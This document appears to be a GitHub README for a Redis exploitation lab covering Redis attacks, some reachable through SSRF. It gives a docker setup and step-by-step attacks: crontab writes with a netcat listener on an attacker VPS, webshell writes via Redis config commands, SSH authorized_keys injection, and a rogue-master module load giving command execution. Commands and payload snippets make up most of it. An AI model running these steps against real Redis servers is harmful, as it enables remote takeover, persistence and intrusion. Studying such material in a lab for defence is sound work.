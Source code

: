 # Environment
Create the environment by start the docker images. The comand is:

```
cd project/redis
docker-compose up -d
``` 

And then you need to start the service `httpd` and `crond` manully. 

```
docker exec -it `container_id` /bin/bash
>systemctl start httpd
>systemctl start crond
```

# Exploiting

### 0x01 Crontab
It can be exploited by `dict://` or `gopher://`.

**Prerequisites:**

* The redis should start by root
* It must be `CentOS` system.

**Steps:**

1. Put the `302.php` and `shell.php` in your VPS.

2. modify the exp.py to adapt yours. It references []() 

3. Run `python3 exp_dict.py`.

4. Listening the port on your VPS `nc -lvp 2333`.

### 0x02 Webshell

It can be exploited by 	`gopher://`.

**Steps:**

1. Modify the exp_resp.py and put the cmds that you need in the `cmd[]` in the `exp_resp.py`. Such like 

```
cmd = [	"flushall",
		"set 1 {}".format(shell.replace(" ","${IFS}")),
		"config set dir {}".format(path),
		"config set dbfilename {}".format(filename),
		"save"
		]
```

2. Run `python3 exp_trans.py` to obtain the representation of gopher payload.

3. Put the payload in the vulnerable point.

4. Access the webshell.

### 0x03 SSH Key

**Prerequisites:**

* The redis should start by root or other user that known.
* The ssh should supprt `PubkeyAuthentication`. like that:


```
#/etc/ssh/sshd_config

PasswordAuthentication no


RSAAuthentication yes
PubkeyAuthentication yes

AuthorizedKeysFile .ssh/authorized_keys
```

**Steps:**

1. Generate the key pair of yours.

```
cd /root/.ssh

ssh-keygen -t rsa
```

2. Put the key in the `exp_resp.py` and replacing the path and dbfilename. 

![](img/1.png)

3. Put the payload in the vulnerable point.

4. Login in with `ssh -p port user@ip -i path_of_private_key`

![](img/2.png)


### 0x04 Slave

After Redis 4.x, it adds a module function, it can be utilized to getshell.

**Prerequisites:**

* Redis <= 5.0.5
* Change the dockerfile of redis from `FROM redis:3.2` to `From redis:5.0` 

**Steps:**

If you can access the redis directily, you can run the `exp_slave.py`. Then you can interact with shell. like this:

![](img/3.png)

If you access the redis by SSRF in intranet, you can run `Redis_Rogue_Server.py` and then send the command with `gopher://` or `dict://`.

```
slaveof ip port
config set dbfilename exp.so
···(python3 Redis_Rogue_Server.py)
module load ./exp.so
system.exec command
```



# Thanks

* [SSRF漏洞分析与利用](http://www.4o4notfound.org/index.php/archives/33/)
* [https://xz.aliyun.com/t/5665#toc-14](https://xz.aliyun.com/t/5665#toc-14)
* Redis-Rogue-Server [https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)









